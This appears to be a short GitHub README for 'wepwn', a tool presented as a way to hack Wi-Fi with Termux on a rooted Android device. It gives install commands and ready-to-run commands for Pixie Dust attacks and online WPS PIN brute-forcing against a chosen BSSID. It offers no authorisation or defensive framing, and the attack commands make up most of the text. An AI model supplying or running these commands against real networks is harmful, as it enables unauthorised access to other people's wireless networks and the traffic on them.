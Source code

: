 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src=".assets/demo2.gif"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python termux-api wpa-supplicant pixiewps iw
git clone https://github.com/ITSN0B1T4/wepwn
cd wepwn
chmod +x wepwn.py
```
#### Help : `sudo python wepwn.py --help`
#### Example : `sudo python wepwn.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wepwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wepwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wepwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


#### Real Author : rofl0r => BiRi_B@B@ => Meh
